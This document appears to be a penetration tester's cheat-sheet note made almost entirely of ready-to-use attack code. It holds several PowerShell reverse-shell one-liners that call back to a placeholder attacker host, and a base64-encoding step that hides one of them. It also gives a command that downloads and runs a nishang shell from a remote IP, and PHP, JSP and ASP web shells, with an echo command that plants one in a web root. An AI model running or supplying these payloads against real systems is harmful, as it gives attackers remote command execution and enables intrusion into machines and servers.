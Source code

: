 ```bash
$client = New-Object System.Net.Sockets.TCPClient('<% tp.frontmatter["LHOST"] %>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<% tp.frontmatter["LHOST"] %>',<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

powershell -nop -exec bypass -c '$client = New-Object System.Net.Sockets.TCPClient("<% tp.frontmatter["LHOST"] %>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

#############################################################################################
# Powershell: Create powershell reverse shell on kali linux
$ kali@kali:~$ pwsh

PS> $Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.119.3",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS> $EncodedText =[Convert]::ToBase64String($Bytes)
PS> $EncodedText

$powershell -enc $EncodedText

#############################################################################################
# powershell with nishang
## download and move shell's location && change file name
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
powershell -c iex(new-object net.webclient).downloadstring(‘http://10.10.14.7:5555/shell.ps1')

```

## Web Shell
```bash
# php
<?php system($_REQUEST["cmd"]); ?>

# jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

# asp
<% eval request("cmd") %>

echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php



```